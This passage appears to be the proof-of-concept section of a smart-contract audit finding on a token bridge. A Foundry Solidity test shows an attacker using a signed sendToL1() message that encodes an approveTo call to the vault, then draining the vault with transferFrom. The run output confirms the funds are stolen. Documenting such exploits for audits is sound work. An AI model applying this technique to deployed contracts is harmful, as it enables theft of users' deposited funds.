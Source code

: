 ## Proof of concept

### Working test case

A user deposits tokens into the vault. An attacker can then call `sendToL1()` with the `message` parameter set as an ABI-encoded call to the vault, forcing the attacker to have the maximum approval limit. The attacker is then able to call `token.transferFrom()` to transfer all of the funds held in the vault to themselves.

```solidity
function test_poc_approveWithdrawFromDeposit() public {
    // user deposits funds to the vault which can then be stolen
    vm.startPrank(user);
    uint256 amount = 10e18;
    token.approve(address(tokenBridge), amount);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, userInL2, amount);
    tokenBridge.depositTokensToL2(user, userInL2, amount);
    vm.stopPrank();

    uint256 vaultBalanceBefore = token.balanceOf(address(vault));
    console2.log("Vault balance before: %s", vaultBalanceBefore);

    // attacker gets a signature to call sendToL1 but the message encodes an approveTo call
    address attacker = makeAddr("attacker");
    bytes memory message = abi.encode(address(vault), 0, abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)));
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);
    vm.startPrank(attacker);
    tokenBridge.sendToL1(v, r, s, message);
    // attacker transfers the vault balance to themselves
    token.transferFrom(address(vault), attacker, vaultBalanceBefore);

    uint256 vaultBalanceAfter = token.balanceOf(address(vault));
    console2.log("Vault balance after: %s", vaultBalanceAfter);

    uint256 attackerBalanceAfter = token.balanceOf(attacker);
    console2.log("Attacker balance after: %s", attackerBalanceAfter);

    assertTrue(vaultBalanceAfter == 0);
    assertEq(attackerBalanceAfter, vaultBalanceBefore);
}
```

Running the test shows that the attacker has been able to withdraw the vault's token balance, stealing the user's deposit.

```bash
$ forge test --mt test_poc_approveWithdrawFromDeposit -vvv

// output
Running 1 test for test/L1TokenBridge.t.sol:L1BossBridgeTest
[PASS] test_poc_approveWithdrawFromDeposit() (gas: 135493)
Logs:
  Vault balance before: 10000000000000000000
  Vault balance after: 0
  Attacker balance after: 10000000000000000000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.17ms
```
